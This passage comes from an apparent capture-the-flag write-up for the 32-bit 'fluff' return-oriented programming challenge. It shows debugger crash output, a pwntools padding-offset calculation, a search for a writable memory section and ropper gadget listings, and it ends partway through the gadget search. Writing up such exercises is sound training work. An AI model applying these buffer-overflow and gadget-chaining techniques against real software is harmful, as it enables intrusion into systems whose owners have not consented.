 ```
EIP: 0x6161616c ('laaa')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6161616c
[------------------------------------stack-------------------------------------]
0000| 0xffffd280 --> 0xf700616d
0004| 0xffffd284 --> 0xffffd2a0 --> 0x1
0008| 0xffffd288 --> 0x0
0012| 0xffffd28c --> 0xf7dd0b41 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd290 --> 0xf7f90000 --> 0x1d9d6c
0020| 0xffffd294 --> 0xf7f90000 --> 0x1d9d6c
0024| 0xffffd298 --> 0x0
0028| 0xffffd29c --> 0xf7dd0b41 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6161616c in ?? ()
gdb-peda$
```
The value of `EIP` was `0x6161616c` or `'laaa'`.
Coming back to `pwntools` I checked the length of the padding that I needed using the `fit` function.
```python
>>> len(fit({'laaa':'B'}))-1
44
```
The reason I subtract one from the length is because the `fit` function adds the `'B'` at the end.

## Finding a place to write
Upon doing `readelf -S fluff32` I found that the best place to write is at `.data` which is at the address: `0x0804a028` because of the free size and it is writeable memory.

## Looking for gadgets
Now that I had a place to write, I need to find a gadget that allows me to write to the address. I used `ropper` to find it.
```
$ ropper --file fluff32 --search mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: fluff32
0x08048709: mov dword ptr [0x81fffffd], eax; ret; 
0x08048693: mov dword ptr [ecx], edx; pop ebp; pop ebx; xor byte ptr [ecx], bl; ret; 
0x080485e9: mov eax, 0; mov ecx, dword ptr [ebp - 4]; leave; lea esp, dword ptr [ecx - 4]; ret; 
0x08048674: mov ebp, 0xcafebabe; ret; 
0x08048512: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a030; call edx; 
0x080484d9: mov ebp, esp; sub esp, 0x14; push 0x804a030; call eax; 
0x0804856a: mov ebp, esp; sub esp, 0x14; push eax; call edx; 
0x080484b0: mov ebx, dword ptr [esp]; ret; 
0x080485ee: mov ecx, dword ptr [ebp - 4]; leave; lea esp, dword ptr [ecx - 4]; ret; 
0x0804867e: mov edi, 0xdeadbabe; ret; 
0x08048684: mov edi, 0xdeadbeef; xchg edx, ecx; pop ebp; mov edx, 0xdefaced0; ret; 
0x0804868c: mov edx, 0xdefaced0; ret; 
0x08048686: mov esi, 0xca87dead; pop ebp; mov edx, 0xdefaced0; ret;
```
`0x08048693: mov dword ptr [ecx], edx; pop ebp; pop ebx; xor byte ptr [ecx], bl; ret;` would do.
Because of the `xor byte ptr [ecx], bl` I need to make sure that `ebx` remains `0x00000000`, because if you xor a byte against 0 it remains the current value.
Now I need to find `pop` gadgets.
```
$ ropper --file fluff32 --search pop
```